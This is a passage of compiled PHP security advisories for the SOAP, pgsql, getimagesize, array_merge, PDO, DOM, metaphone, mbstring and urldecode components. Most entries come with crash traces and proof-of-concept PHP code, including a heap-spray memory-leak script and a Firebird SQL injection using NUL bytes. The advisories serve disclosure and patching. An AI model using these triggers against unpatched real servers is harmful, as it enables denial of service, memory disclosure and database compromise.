#1  0x0000aaaaaaf8e72c in serialize_zval (val=0xfffff76010f0, param=0x0, paramName=0xffffffffc738 "param0", style=1, parent=0xaaaaac484090) at /php-src/ext/soap/soap.c:4175
#2  0x0000aaaaaaf8e55c in serialize_parameter (param=0x0, param_val=0xfffff76010f0, index=0, name=0x0, style=1, parent=0xaaaaac484090) at /php-src/ext/soap/soap.c:4144
#3  0x0000aaaaaaf8ddc8 in serialize_function_call (this_ptr=0xfffff7614220, function=0x0, function_name=0xfffff765f6a8 "DummyFunction", uri=0xfffff765f798 "urn:dummy", arguments=0xfffff76010f0, arg_count=1, version=1, soap_headers=0x0) at /php-src/ext/soap/soap.c:4005
#4  0x0000aaaaaaf87794 in do_soap_call (execute_data=0xfffff7614200, this_ptr=0xfffff7614220, function=0xfffff765f690, arg_count=1, real_args=0xfffff76010f0, return_value=0xffffffffcfb8, location=0xfffff765f730, soap_action=0x0, call_uri=0xfffff765f780, soap_headers=0x0, output_headers=0x0) at /php-src/ext/soap/soap.c:2421
#5  0x0000aaaaaaf88164 in soap_client_call_common (this_ptr=0xfffff7614220, function=0xfffff765f690, args=0xfffff7659480, location=0x0, soap_action=0x0, uri=0x0, soap_headers=0x0, free_soap_headers=false, output_headers=0x0, execute_data=0xfffff7614200, return_value=0xffffffffcfb8) at /php-src/ext/soap/soap.c:2559
#6  0x0000aaaaaaf88664 in zim_SoapClient___soapCall (execute_data=0xfffff7614200, return_value=0xffffffffcfb8) at /php-src/ext/soap/soap.c:2651
#7  0x0000aaaaab286f9c in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/Zend/zend_vm_execute.h:1992
#8  0x0000aaaaab317060 in execute_ex (ex=0xfffff7614020) at /php-src/Zend/zend_vm_execute.h:58962
#9  0x0000aaaaab31b918 in zend_execute (op_array=0xfffff7684000, return_value=0x0) at /php-src/Zend/zend_vm_execute.h:64385
#10 0x0000aaaaab3d23c0 in zend_execute_script (type=8, retval=0x0, file_handle=0xffffffffe840) at /php-src/Zend/zend.c:1943
#11 0x0000aaaaab13bea4 in php_execute_script_ex (primary_file=0xffffffffe840, retval=0x0) at /php-src/main/main.c:2594
#12 0x0000aaaaab13c030 in php_execute_script (primary_file=0xffffffffe840) at /php-src/main/main.c:2634
#13 0x0000aaaaab3d4c68 in do_cli (argc=2, argv=0xaaaaac2e5470) at /php-src/sapi/cli/php_cli.c:952
#14 0x0000aaaaab3d5bf8 in main (argc=2, argv=0xaaaaac2e5470) at /php-src/sapi/cli/php_cli.c:1363
```

### Valgrind Trace
```
valgrind php poc.php
==23007== Memcheck, a memory error detector
==23007== Copyright (C) 2002-2024, and GNU GPL'd, by Julian Seward et al.
==23007== Using Valgrind-3.24.0 and LibVEX; rerun with -h for copyright info
==23007== Command: php poc.php
==23007== 
==23007== Warning: set address range perms: large range [0x59c8b000, 0xd9c8c000) (defined)
==23007== Warning: set address range perms: large range [0x59c8b000, 0xd9c8c000) (noaccess)
==23007== Warning: set address range perms: large range [0x59c8b000, 0xd9e8b000) (defined)
==23007== Warning: set address range perms: large range [0xd9e01000, 0x159e02000) (defined)
==23007== Warning: set address range perms: large range [0xd9e01000, 0x159e02000) (noaccess)
==23007== Warning: set address range perms: large range [0xd9e01000, 0x15a001000) (defined)
==23007== Invalid read of size 1
==23007==    at 0x488FE8C: strcmp (in /usr/libexec/valgrind/vgpreload_memcheck-arm64-linux.so)
==23007==    by 0x5F672B: serialize_zval (soap.c:4175)
==23007==    by 0x5F655B: serialize_parameter (soap.c:4144)
==23007==    by 0x5F5DC7: serialize_function_call (soap.c:4005)
==23007==    by 0x5EF793: do_soap_call (soap.c:2421)
==23007==    by 0x5F0163: soap_client_call_common (soap.c:2559)
==23007==    by 0x5F0663: zim_SoapClient___soapCall (soap.c:2651)
==23007==    by 0x8EEF9B: ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (zend_vm_execute.h:1992)
==23007==    by 0x97F05F: execute_ex (zend_vm_execute.h:58962)
==23007==    by 0x983917: zend_execute (zend_vm_execute.h:64385)
==23007==    by 0xA3A3BF: zend_execute_script (zend.c:1943)
==23007==    by 0x7A3EA3: php_execute_script_ex (main.c:2594)
==23007==  Address 0x0 is not stack'd, malloc'd or (recently) free'd
==23007== 
==23007== 
==23007== Process terminating with default action of signal 11 (SIGSEGV)
==23007==  Access not within mapped region at address 0x0
==23007==    at 0x488FE8C: strcmp (in /usr/libexec/valgrind/vgpreload_memcheck-arm64-linux.so)
==23007==    by 0x5F672B: serialize_zval (soap.c:4175)
==23007==    by 0x5F655B: serialize_parameter (soap.c:4144)
==23007==    by 0x5F5DC7: serialize_function_call (soap.c:4005)
==23007==    by 0x5EF793: do_soap_call (soap.c:2421)
==23007==    by 0x5F0163: soap_client_call_common (soap.c:2559)
==23007==    by 0x5F0663: zim_SoapClient___soapCall (soap.c:2651)
==23007==    by 0x8EEF9B: ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (zend_vm_execute.h:1992)
==23007==    by 0x97F05F: execute_ex (zend_vm_execute.h:58962)
==23007==    by 0x983917: zend_execute (zend_vm_execute.h:64385)
==23007==    by 0xA3A3BF: zend_execute_script (zend.c:1943)
==23007==    by 0x7A3EA3: php_execute_script_ex (main.c:2594)
==23007==  Address 0x0 is not stack'd, malloc'd or (recently) free'd
==23007== 
==23007== HEAP SUMMARY:
==23007==     in use at exit: 2,512,339 bytes in 16,376 blocks
==23007==   total heap usage: 17,710 allocs, 1,334 frees, 3,078,295 bytes allocated
==23007== 
==23007== LEAK SUMMARY:
==23007==    definitely lost: 27,168 bytes in 849 blocks
==23007==    indirectly lost: 40 bytes in 1 blocks
==23007==      possibly lost: 2,040,256 bytes in 13,322 blocks
==23007==    still reachable: 444,875 bytes in 2,204 blocks
==23007==         suppressed: 0 bytes in 0 blocks
==23007== 
==23007== ERROR SUMMARY: 1 errors from 1 contexts (suppressed: 0 from 0)
Segmentation fault
```

## GHSA-hrwm-9436-5mv3 — pgsql extension does not check for errors during escaping
- CVE: CVE-2025-1735 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2025-07-03T12:27:50Z | URL: https://github.com/php/php-src/security/advisories/GHSA-hrwm-9436-5mv3
- Affected /: vulnerable < 8.1.33 patched 8.1.33
- Affected /: vulnerable < 8.2.29 patched 8.2.29
- Affected /: vulnerable < 8.3.23 patched 8.3.23
- Affected /: vulnerable < 8.4.10 patched 8.4.10

### Summary

Missing error checking could result in SQL injection and missing error handling could lead to crashes due to null pointer dereferences.

### Details

This is related to https://www.postgresql.org/support/security/CVE-2025-1094/ that was reported to postgres.  The reporter used php to showcase the problem.

While working on addressing the report, it was realised that PHP uses the escape functions in a way that does not allow for errors to be reported. Specifically the error parameters is not passed to PQescapeStringConn(), which therefore cannot report an error.

While postgres now tries to make sure that the escaped string will trigger errors on the server-side if the string is invalidly encoded, that still can be insufficient, depending on how the escaped values are used.

It was also noted that several calls to PQescapeIdentifier() do not check for the returned value being NULL, despite that being the documented way that PQescapeIdentifier() (and PQescapeLiteral()) to report errors.  Seems like that could cause crashes or at least UB in some of the callsites.

## GHSA-3237-qqm7-mfv7 — Information Leak of Memory in getimagesize
- CVE: CVE-2025-14177 | Severity: medium | CVSS: None `None` | CWE: CWE-524
- Published: 2025-12-18T16:10:22Z | URL: https://github.com/php/php-src/security/advisories/GHSA-3237-qqm7-mfv7
- Affected /: vulnerable < 8.1.34 patched 8.1.34
- Affected /: vulnerable < 8.2.30 patched 8.2.30
- Affected /: vulnerable < 8.3.29 patched 8.3.29
- Affected /: vulnerable < 8.4.16 patched 8.4.16
- Affected /: vulnerable < 8.5.1 patched 8.5.1

# Information Leak of Memory
Product: PHP EXT/STANDARD
Version: 8.6.0
CWE-ID:
•	[CWE-524: Use of Cache Containing Sensitive Information](https://cwe.mitre.org/data/definitions/524.html)
•	[CAPEC-204: Lifting Sensitive Data Embedded in Cache](https://capec.mitre.org/data/definitions/204.html)
CVSS vector v.4.0: 6.3 (AV:N/AC:L/AT:P/PR:N/UI:N/VC:L/VI:N/VA:N/SC:N/SI:N/SA:N)
Description: The application insufficiently controls access to information processed by the application data caching tool. As a result, an attacker can gain access to cached data.
Mitigation: Restrict access to information processed by the application data caching tool. Additionally, avoid caching information when unnecessary and, where possible, ensure cache encryption.

**Researcher: Nikita Sveshnikov (Positive Technologies)**

## Research 
Researcher discovered zero-day vulnerability «Information Leak of Memory» in PHP EXT/STANDARD.
This report includes a minimal proof‑of‑concept that demonstrates a bug in php-src/ext/standard/image.c where APPn data read for getimagesize(..., $info) may be corrupted and contain uninitialized heap bytes.
poc.php is a minimal Proof of Concept (Listing 1). Writes a small JPEG (min.jpg), reads it through php://filter to force multi‑chunk reads and prints a human‑readable verdict with an inline leak marker snippet when found.

### Vulnerability reproduction 

The steps below outline the vulnerability reproduction.
•	Use the last PHP cli: ./php8.5.1 poc.php
•	Output shows:
    - Expected/actual APP1 length
    - Expected vs returned APP1 head (hex)
    - Result: VULNERABLE … or Result: OK …
    - If vulnerable: Leak marker found: offset=… and a short ASCII/HEX snippet with the marker highlighted in [].
Note, the issue triggers under multi‑chunk reads. Reading directly from file or from a string often returns in one read and may not reproduce. The PoC uses php://filter/... specifically to ensure chunked reading.

### Vulnerability analysis

php_read_stream_all_chunks() writes every chunk into the start of the buffer without advancing the destination pointer. The function then reports success as if the full buffer were filled, so the tail may contain uninitialized memory and the head is overwritten by the last chunk. That buffer is stored into $info['APPn'].

Listing 1. PoC Source Code

```
<?php
// Minimal PoC: corruption/uninitialized memory leak when reading APP1 via php://filter

$file = __DIR__ . '/min.jpg';

// Make APP1 large enough so it is read in multiple chunks
$chunk = 8192;
$tail  = 123;
$payload = str_repeat('A', $chunk) . str_repeat('B', $chunk) . str_repeat('Z', $tail);
$app1Len = 2 + strlen($payload);

// Minimal JPEG: SOI + APP1 + SOF0(1x1) + EOI
$sof  = "\xFF\xC0" . pack('n', 11) . "\x08" . pack('n',1) . pack('n',1) . "\x01\x11\x00";
$jpeg = "\xFF\xD8" . "\xFF\xE1" . pack('n', $app1Len) . $payload . $sof . "\xFF\xD9";
file_put_contents($file, $jpeg);

// Mini heap-spray: fill heap with a marker and free it, so the C buffer
// can reuse those areas and return marker remnants in $info['APP1']
$marker = 'LEAK-MARKER-123!';
$spr = substr(str_repeat($marker, intdiv(strlen($payload) + strlen($marker) - 1, strlen($marker))), 0, strlen($payload));
$spray = [];
for ($i = 0; $i < 512; $i++) {
    $x = $spr; $x[0] = chr($i & 0x7F); // COW -> distinct allocations
    $spray[$i] = $x;
}
unset($spray, $x);
gc_collect_cycles();

// Read through a filter to enforce multiple reads
$src = 'php://filter/read=string.rot13|string.rot13/resource=' . $file;
$info = null;
if (!@getimagesize($src, $info) || !isset($info['APP1'])) {
    echo "Error: failed to obtain APP1 from getimagesize().\n";
    exit(1);
}

$exp = $payload;
$ret = $info['APP1'];

// Human-readable output
$lenExp = strlen($exp);
$lenRet = strlen($ret);
echo "APP1 length: expected=$lenExp, actual=$lenRet\n";
echo "Expected APP1 head (HEX): ", bin2hex(substr($exp, 0, 16)), "\n";
echo "Returned APP1 head (HEX): ", bin2hex(substr($ret, 0, 16)), "\n";
echo ($exp === $ret)
    ? "Result: OK — data matches.\n"
    : "Result: VULNERABLE — data differs (corruption/leak).\n";

// If found — show marker offset and a short snippet
$pos = strpos($ret, $marker);

if ($pos !== false) {
    echo "Leak marker found: offset=$pos (inside returned APP1).\n";
    $ctx = 12; // bytes of context left/right
    $start = max(0, $pos - $ctx);
    $end = min(strlen($ret), $pos + strlen($marker) + $ctx);
    $before = substr($ret, $start, $pos - $start);
    $mid    = substr($ret, $pos, strlen($marker));
    $after  = substr($ret, $pos + strlen($marker), $end - ($pos + strlen($marker)));

    $sanitize = function ($s) {
        return preg_replace('/[^\x20-\x7E]/', '.', $s);
    };
    $asciiLine = $sanitize($before) . '[' . $mid . ']' . $sanitize($after);
    $hexLine = bin2hex($before) . '[' . bin2hex($mid) . ']' . bin2hex($after);

    echo "Snippet with marker (ASCII, marker in []): ", $asciiLine, "\n";
    echo "Snippet with marker (HEX, marker in []):   ", $hexLine, "\n";
} else if ($exp !== $ret) {
    echo "Marker not found, but data differs — still indicates a read bug.\n";
}
 ```

Figure 1.

## Security impact

This issue was originally not classified as a security issue due to usage of stream filter in recreation of the issue and the fact that only realy image file is supposed to be used. However, after deeper investigation during the fix, it was discovered that this can be exploitable if attacker knows the stream chunk size (which is mostly default) even on normal image. Such attack would be more complex but possible.

## GHSA-h96m-rvf9-jgm2 — Heap buffer overflow in array_merge()
- CVE: CVE-2025-14178 | Severity: medium | CVSS: 6.5 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:L/A:H` | CWE: 
- Published: 2025-12-18T16:10:32Z | URL: https://github.com/php/php-src/security/advisories/GHSA-h96m-rvf9-jgm2
- Affected /: vulnerable < 8.1.34 patched 8.1.34
- Affected /: vulnerable < 8.2.30 patched 8.2.30
- Affected /: vulnerable < 8.3.29 patched 8.3.29
- Affected /: vulnerable < 8.4.16 patched 8.4.16
- Affected /: vulnerable < 8.5.1 patched 8.5.1
- Credits: ndossche

The following PHP code triggers a reliable heap buffer overflow:
```php
$arr = range(0, 2**29);
array_merge($arr, $arr, $arr, $arr, $arr, $arr, $arr, $arr);
```

Or the general case:
```php
$power = 24; // You can choose this number 1 <= $power < 32
$arr = range(0, 2**$power);
array_merge(...array_fill(0, 2**(32-$power), $arr));
```

This is because packed arrays in array_merge() have an optimization that requires precomputing the count of the elements, done using `count += zend_hash_num_elements(Z_ARRVAL_P(arg));`. However, this may overflow. Note that even if it didn't, it would cause a DoS because array_init() will trigger a bailout with too large counts.

The code provided is artificial, but I believe this can happen in the real world with for example large sets of JSON data that are then passed to array_merge(). The total count just has to exceed HT_MAX_SIZE to trigger the DoS or the 32-bit limit to trigger the buffer overflow.

### Impact

If we were using a memory safe language we would "just" be limited to the DoS, but now we have heap corruption and all the joys of it.
This bug has been in PHP since PHP 7.1.

### Workarounds
Prevent a large number of inputs of long arrays to array_merge().

### Security impact

As noted the example code is just a PoC exploit trigger.

The JSON file could be crafted and loaded via json_decode that results in a structure like: [array1, array2, array3, ...]. Then the code could use `array_merge(array1, array2, array3, ...)` from the JSON data. The arrays itself may be relatively small but if the sum of elements exceed the HT_MAX_SIZE bound, the buffer overflow is triggered.

Something like this:

```php
<?php
$array = json_decode(file_get_contents('input.json')); // array of arrays
array_merge(...$array);
```

## GHSA-8xr5-qppj-gvwj — NULL Pointer Dereference in PDO quoting
- CVE: CVE-2025-14180 | Severity: medium | CVSS: None `None` | CWE: CWE-476
- Published: 2025-12-18T16:10:58Z | URL: https://github.com/php/php-src/security/advisories/GHSA-8xr5-qppj-gvwj
- Affected /: vulnerable < 8.1.34 patched 8.1.34
- Affected /: vulnerable < 8.2.30 patched 8.2.30
- Affected /: vulnerable < 8.3.29 patched 8.3.29
- Affected /: vulnerable < 8.4.16 patched 8.4.16
- Affected /: vulnerable < 8.5.1 patched 8.5.1

**Product:** PHP
**Version:** 8.5.0-DEV (CLI)
**CWE-ID:** CWE-476: NULL Pointer Dereference
**CVSS vector v.4.0:** 8.2 (AV:N/AC:H/AT:P/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N)
**Description:** A NULL pointer dereference occurs when the application dereferences a pointer that it expects to be valid, but is NULL, typically causing a crash or exit.
**Exploitation conditions:** An unauthorized user
**Mitigation:** Explicitly check whether a NULL pointer exists before dereferencing it.
**Researcher:** Aleksey Solovev (Positive Technologies)

## Research

The vulnerable source code is the `ZSTR_LEN(plc->quoted)` macro call in the `pdo_parse_params` function in `php-src/ext/pdo/pdo_sql_parser.re`. Inside the `ZSTR_LEN(plc->quoted)` macro, the `len` field is accessed.

_Figure 1. The `ZSTR_LEN` macro_


However, when using a special character sequence, `plc->quoted` is equal to `0x0`.

_Figure 2. The vulnerable source code_


The `plc->quoted` field is generated in this case on line 302 when calling the `stmt->dbh->methods->quoter` function.

_Figure 3. `plc->quoted` initialization_


When calling `stmt->dbh->methods->quoter`, the quoting function `pgsql_handle_quoter` for PG will be called. On line 407, it will call the PG library function `PQescapeStringConn`, which will return an error when processing the special sequence, returning NULL as a result. This result will be assigned to the `plc->quoted` field.

_Figure 4. Returning NULL when error occurs_


## Vulnerability reproduction

The PHP language was compiled using the following commands.

_Listing 1. Compiling PHP_
```
$ git clone https://github.com/php/php-src.git
$ cd php-src
$ ./buildconf
$ ./configure CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" 
LDFLAGS="-fsanitize=address" --with-pdo-pgsql --enable-debug
$ make -j8
$ ./sapi/cli/php -v
PHP 8.5.0-dev (cli) (built: Sep 22 2025 13:24:35) (NTS DEBUG)
Copyright (c) The PHP Group
Zend Engine v4.5.0-dev, Copyright (c) Zend Technologies
    with Zend OPcache v8.5.0-dev, Copyright (c), by Zend Technologies
```

Next, the following PHP code was placed on the server, causing to `Segmentation fault`.
Enabling the `PDO::ATTR_EMULATE_PREPARES` mode is the key element of this code. 
The problem is caused by a non-existent sequence of characters in hexadecimal notation, for example `\x99`.

_Listing 2. Source code on the server_
```
<?php
    ini_set('memory_limit', '-1');

    $dsn        = "pgsql:host=localhost;port=5432;dbname=db";
    $username   = 'manager';
    $password   = 'password';

    try {
        $pdo = new PDO($dsn, $username, $password, [
            PDO::ATTR_EMULATE_PREPARES => true
        ]);

        $sql = "SELECT * FROM users where username = :username";
        $stmt = $pdo->prepare($sql);
        
        $p1 = "alice\x99";
        $stmt->execute(['username' => $p1]);

        foreach ($stmt as $row) {
            print_r($row);
        }
    } catch (PDOException $e) { echo $e->getMessage(); }
?>

```

Executing the following PHP code results in `Segmentation fault`, which leads to Denial of Service (DoS).

_Figure 5. Demonstration of the vulnerability_


## Security impact

If there is no extra validaiton for zero byte of the quoted user input, then it could lead to a potential DoS and for ZTS mode stopping all other currently served requests in the process.

## Credits
Aleksey Solovev (Positive Technologies)


## GHSA-www2-q4fc-65wf — Null byte termination in dns_get_record()
- CVE: None | Severity: low | CVSS: None `None` | CWE: 
- Published: 2025-12-18T16:11:09Z | URL: https://github.com/php/php-src/security/advisories/GHSA-www2-q4fc-65wf
- Affected /: vulnerable < 8.1.34 patched 8.1.34
- Affected /: vulnerable < 8.2.30 patched 8.2.30
- Affected /: vulnerable < 8.3.29 patched 8.3.29
- Affected /: vulnerable < 8.4.16 patched 8.4.16
- Affected /: vulnerable < 8.5.1 patched 8.5.1
- Credits: mdsnins

### Summary

As GHSA-3cr5-j632-f35r, same null termination is occuring

### Details

dns_get_record() and other DNS functions don't have any null contain check, leads potential SSRF or unexpected behavior.

### PoC

```php
<?php

var_dump(dns_get_record("php.net\0aa"));
```

Result: DNS records of `php.net`
Expect: Fails to call

### Security impact

(Even though it's too low but,) Probability of SSRF


## GHSA-4jhr-8w89-j733 — DoS attack via DOMNode::C14N()
- CVE: CVE-2026-7263 | Severity: high | CVSS: None `None` | CWE: CWE-404
- Published: 2026-05-07T12:54:39Z | URL: https://github.com/php/php-src/security/advisories/GHSA-4jhr-8w89-j733
- Affected php/ext-dom: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-dom: vulnerable < 8.5.6 patched 8.5.6
- Credits: iluuu1994

**Researcher: Nikita Sveshnikov (Positive Technologies)**

In `DOMNode::C14N()`, improper removal of a `xmlns` libxml2 attribute from a doubly linked list can lead to a corrupt, circular linked list. The linked list is iterated in many places in PHP and libxml2, leading to DoS through segfaults, or temporal and spatial resource starvation.

```php
$doc = Dom\HTMLDocument::createFromString('<svg foo="foo" xmlns="" bar="bar">');
$doc->C14N();
// Segfault on cleanup

// Or

$doc = Dom\HTMLDocument::createFromString('<svg foo="foo" xmlns="" bar="bar">');
$doc->C14N();
$svg = $doc->documentElement->childNodes[1]->childNodes[0];
foreach ($svg->attributes as $prop) {} // This will loop forever
```

The attribute is removed incorrectly here:

https://github.com/php/php-src/blob/f0f28b763c8696511c3b80fb8b25ae8765b2d94b/ext/dom/node.c#L2134-L2141

Notice the `attr->prev = attr->next;` instead of `attr->prev->next = attr->next;`. The attribute is later (correctly) restored here:

https://github.com/php/php-src/blob/f0f28b763c8696511c3b80fb8b25ae8765b2d94b/ext/dom/node.c#L2182-L2189

After both procedures, the following graph:



Would result in this graph:



Continuously following `next` will result in an infinite loop.

## GHSA-96wq-48vp-hh57 — Signed integer overflow in metaphone()
- CVE: CVE-2026-7568 | Severity: low | CVSS: None `None` | CWE: CWE-125, CWE-190
- Published: 2026-05-07T12:54:56Z | URL: https://github.com/php/php-src/security/advisories/GHSA-96wq-48vp-hh57
- Affected php/ext-standard: vulnerable < 8.2.31 patched 8.2.31
- Affected php/ext-standard: vulnerable < 8.3.31 patched 8.3.31
- Affected php/ext-standard: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-standard: vulnerable < 8.5.6 patched 8.5.6
- Credits: TimWolla

**Researcher: Aleksey Solovev (Positive Technologies)**

The PHP standard library provides the function `metaphone()` (php-src/ext/standard/metaphone.c). This function is used for searching and matching words based on their phonetic sound.

This function declares the variable `signed int w_idx`, keeping track of the current position into the string passed to `metaphone()`.

https://github.com/php/php-src/blob/9498bc3ee131616344370f59d4f1a6bb46375750/ext/standard/metaphone.c#L171

The maximum value the `signed int` type can hold is (usually) `2_147_483_647`. In C, exceeding this value for signed types is undefined behavior. Frequently, the value will wrap around and result in the value `-2_147_483_648`, but this behavior is not guaranteed.

If the string passed to `metaphone()` has a length of `>2_147_483_647`, a signed integer overflow can occur, resulting in undefined behavior. Accessing the current word after an overflow can result in a segmentation fault or access unrelated memory.

```php
<?php

ini_set('memory_limit', '-1');
$str = str_repeat('0', 2 * (1024 ** 3) - 2) . 'AE';
metaphone($str, 1);

?>
```

```
$ ./php cli.php
AddressSanitizer:DEADLYSIGNAL
=================================================================
==2977930==ERROR: AddressSanitizer: SEGV on unknown address 0x74748ba00018 (pc 0x6051a40f8a68 bp 0x7ffca9b12420 sp 0x7ffca9b123d0 T0)
==2977930==The signal is caused by a READ memory access.
    #0 0x6051a40f8a68 in metaphone /home/administrator/php/php-src/ext/standard/metaphone.c:192
    #1 0x6051a40f8433 in zif_metaphone /home/administrator/php/php-src/ext/standard/metaphone.c:43
    #2 0x6051a4552725 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER /home/administrator/php/php-src/Zend/zend_vm_execute.h:1355
    #3 0x6051a46b7f4a in execute_ex /home/administrator/php/php-src/Zend/zend_vm_execute.h:116436
    #4 0x6051a46cd123 in zend_execute /home/administrator/php/php-src/Zend/zend_vm_execute.h:121924
    #5 0x6051a4831146 in zend_execute_script /home/administrator/php/php-src/Zend/zend.c:1981
    #6 0x6051a42653ef in php_execute_script_ex /home/administrator/php/php-src/main/main.c:2645
    #7 0x6051a42657ff in php_execute_script /home/administrator/php/php-src/main/main.c:2685
    #8 0x6051a4836cb6 in do_cli /home/administrator/php/php-src/sapi/cli/php_cli.c:951
    #9 0x6051a4839283 in main /home/administrator/php/php-src/sapi/cli/php_cli.c:1362
    #10 0x74758f42a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #11 0x74758f42a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #12 0x6051a3406d04 in _start (/home/administrator/php/php-src/sapi/cli/php+0x606d04) (BuildId: 675b273c6c01d12f08faaf607fb51c198e4db43b)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /home/administrator/php/php-src/ext/standard/metaphone.c:192 in metaphone
==2977930==ABORTING
```

## GHSA-w476-322c-wpvm — SQL injection in pdo_firebird via NUL bytes in quoted strings
- CVE: CVE-2025-14179 | Severity: high | CVSS: None `None` | CWE: CWE-89
- Published: 2026-05-07T12:55:05Z | URL: https://github.com/php/php-src/security/advisories/GHSA-w476-322c-wpvm
- Affected php/ext-pdo_firebird: vulnerable < 8.2.31 patched 8.2.31
- Affected php/ext-pdo_firebird: vulnerable < 8.3.31 patched 8.3.31
- Affected php/ext-pdo_firebird: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-pdo_firebird: vulnerable < 8.5.6 patched 8.5.6
- Credits: iluuu1994, arnaud-lb

Improper handling of NUL bytes during the preparation of Firebird SQL queries leads to sections of the of the query being dropped. NUL bytes can find their way into queries even under regular circumstances via `PDO::quote()`.

https://github.com/php/php-src/blob/046ffa257581d6f1a709e9fbc4638793c2ac7e22/ext/pdo_firebird/firebird_driver.c#L437-L442

A new query is constructed token-by-token. In the case of a `ttString` `'\0'`, the string is copied via `strncat()` rather than `memcpy()`, stopping after the first `'` quote and ignoring both the `\0` and terminating `'` quote. This will incorrectly embed the SQL tokens following the string into the string, allowing for trivial SQL injection if the next string is also attacker-controlled.

```php
$dbh->exec('CREATE TABLE users (name VARCHAR(255))');
$dbh->exec("INSERT INTO users VALUES ('Foo')");
$dbh->exec("INSERT INTO users VALUES ('Bar')");

$param = $dbh->quote("\0");
$param2 = $dbh->quote('or 1=1--');

$stmt = $dbh->query("SELECT * FROM users WHERE name = {$param} AND name = {$param2}");

// Before preparation:
// SELECT * FROM users WHERE name = '\0' AND name = 'or 1=1--'

// After preparation:
// SELECT * FROM users WHERE name = ' AND name = 'or 1=1--'

echo json_encode($stmt->fetchAll(PDO::FETCH_ASSOC)) . "\n";
// [{"NAME":"Foo"},{"NAME":"Bar"}]
```

This incorrect preparation applies to `SELECT`, `INSERT`, `UPDATE`, `DELETE`, `MERGE`, `WITH` and `EXECUTE` statements.

## Credits
Aleksey Solovev, Nikita Sveshnikov (Positive Technologies)

## GHSA-74r9-qxhc-fx53 — Global buffer over-read in mb_convert_encoding() with attacker-supplied encoding
- CVE: CVE-2026-6104 | Severity: medium | CVSS: None `None` | CWE: CWE-125
- Published: 2026-05-07T12:55:25Z | URL: https://github.com/php/php-src/security/advisories/GHSA-74r9-qxhc-fx53
- Affected php/ext-mbstring: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-mbstring: vulnerable < 8.5.6 patched 8.5.6
- Credits: AkshayJainG, iluuu1994

## Summary

A global buffer over-read exists in `mbfl_name2encoding_ex()` (`ext/mbstring/libmbfl/mbfl/mbfl_encoding.c`, line 352), called from `mb_convert_encoding(...)` and other mbstring functions, when parsing encoding names with embedded NUL bytes.

## Root Cause

In `mbfl_name2encoding_ex`, the MIME name search loop (line 352) uses:

```c
if (strncasecmp((*encoding)->mime_name, name, name_len) == 0 && (*encoding)->mime_name[name_len] == '\0') {
```

When `name` contains an embedded NUL byte (e.g., `"UTF-8\x00AAAA..."`), `strncasecmp` returns 0 after matching up to the NUL (since both strings have NUL at the same position). The subsequent check `(*encoding)->mime_name[name_len]` then reads at offset `name_len` (e.g., 22) from `mime_name`, which is only 6 bytes long (`"UTF-8\0"`). This reads 16+ bytes past the end of the global string into adjacent global memory.

The same issue exists on lines 362 for encoding aliases.

## Minimal Reproducer

```php
<?php
$encoding = "UTF-8\x00AAAAAAAAAAAAAAAA";
mb_convert_encoding('foo', $encoding, $encoding)
```

Running with ASan-instrumented PHP 8.4.20:

```
==552769==ERROR: AddressSanitizer: global-buffer-overflow on address 0x...
READ of size 1
    #0 in mbfl_name2encoding_ex mbfl_encoding.c:352
    #1 in php_mb_parse_encoding_list mbstring.c:350
    #2 in zif_mb_convert_encoding mbstring.c:2865
```

## Attack Surface

- Triggerable when a attacker-controlled encoding is passed to `mb_convert_encoding()` without sanitization
- Also affected are `mb_detect_encoding()`, `mb_convert_variables()`, `mb_detect_order()`, as well as the `mbstring.detect_order` and `mbstring.http_output` INI settings.
- Out-of-bounds read of global memory (CWE-125)
- Information disclosure of adjacent global data; not directly exploitable for code execution

## Environment

- PHP 8.4.0+, `-fsanitize=address,undefined`

## GHSA-m8rr-4c36-8gq4 — Out-of-bounds read in urldecode()
- CVE: CVE-2026-7258 | Severity: medium | CVSS: None `None` | CWE: CWE-125
- Published: 2026-05-07T12:56:13Z | URL: https://github.com/php/php-src/security/advisories/GHSA-m8rr-4c36-8gq4
- Affected php/php-src: vulnerable < 8.2.31 patched 8.2.31
- Affected php/php-src: vulnerable < 8.3.31 patched 8.3.31
- Affected php/php-src: vulnerable < 8.4.21 patched 8.4.21
- Affected php/php-src: vulnerable < 8.5.6 patched 8.5.6
- Credits: xfourj, iluuu1994

Consider the following snippet within `php_url_decode_ex()` at `ext/standard/url.c`, called from PHPs `urldecode()` function:

https://github.com/php/php-src/blob/dcf653339c245e25ea319248d0fc071a9405d688/ext/standard/url.c#L592-L593

According to the C11 specification, `isxdigit()`'s (and all other `ctype.h` functions') only argument is of type `int`, and any value passed to it must be representable by `unsigned char`, i.e. 0-255.

§7.4:

> The header <ctype.h> declares several functions useful for classifying and mapping characters. In all cases the argument is an int, the value of which shall be representable as an unsigned char or shall equal the value of the macro EOF. If the argument has any other value, the behavior is undefined.

On platforms where plain `char` is signed (which is most), passing a `char` with a value <0 to `int` (or casting to `int` explicitly as in this case) will lead to signed integer extension, leading to a negative `int` value. Instead, the `char` value should be cast to `unsigned char`, so that no sign extension occurs.

Most platforms account for this common mistake. However, on NetBSD passing negative values to `isxdigit()` lead to an out-of-bounds read, leading to a segfault.

```php
urldecode("%\x80");
```

## GHSA-85c2-q967-79q5 — Use-After-Free in SOAP using Apache map with Remote Code Execution
- CVE: CVE-2026-6722 | Severity: high | CVSS: None `None` | CWE: CWE-416
- Published: 2026-05-07T12:56:25Z | URL: https://github.com/php/php-src/security/advisories/GHSA-85c2-q967-79q5
- Affected php/ext-soap: vulnerable < 8.2.31 patched 8.2.31
- Affected php/ext-soap: vulnerable < 8.3.31 patched 8.3.31
- Affected php/ext-soap: vulnerable < 8.4.21 patched 8.4.21
